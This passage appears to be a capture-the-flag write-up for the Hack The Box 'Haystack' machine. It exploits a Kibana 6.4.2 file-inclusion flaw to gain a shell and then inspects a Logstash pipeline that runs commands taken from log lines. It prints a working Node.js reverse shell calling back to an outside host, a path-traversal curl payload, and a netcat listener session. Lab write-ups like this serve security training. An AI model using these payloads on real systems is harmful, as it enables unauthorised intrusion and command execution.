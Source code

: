 ```
```
As we can se we are running version 6.4.2 so, there is a chance that kibana is vulnerable to RCE.
Now, we can follow [this kibana vulnerability PoC](https://github.com/mpgn/CVE-2018-17246) and put the following file under /tmp/shell.sh
```
[security@haystack tmp]$ cat shell.js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1337, "10.10.14.24", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```
Then since this vulnerability exploit an LFI, we will need to call the following url using curl:
```
[security@haystack tmp]$ curl 'http://localhost:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/shell.js'
```
listen on port 1337, and we get a shell as kibana user
```
root@kali:~/Documents/HTB/Boxes/Haystack# nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.115] 54658
id
uid=994(kibana) gid=992(kibana) grupos=992(kibana) contexto=system_u:system_r:unconfined_service_t:s0
```
Now that we have kibana access rights, let's look straight into /etc/logstash/conf.d/ folder.  
If we examine the files, we can see that the following pipeline is configured:  
```
bash-4.2$ cat *
filter {
        if [type] == "execute" {
                grok {
                        match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
                }
        }
}
input {
        file {
                path => "/opt/kibana/logstash_*"
                start_position => "beginning"
                sincedb_path => "/dev/null"
                stat_interval => "10 second"
                type => "execute"
                mode => "read"
        }
}
output {
        if [type] == "execute" {
                stdout { codec => json }
                exec {
                        command => "%{comando} &"
                }
        }
}
```
so it seems like there is an input for logs and a filter that if matched, we can execute commands.  
so now we can create a file containing the below: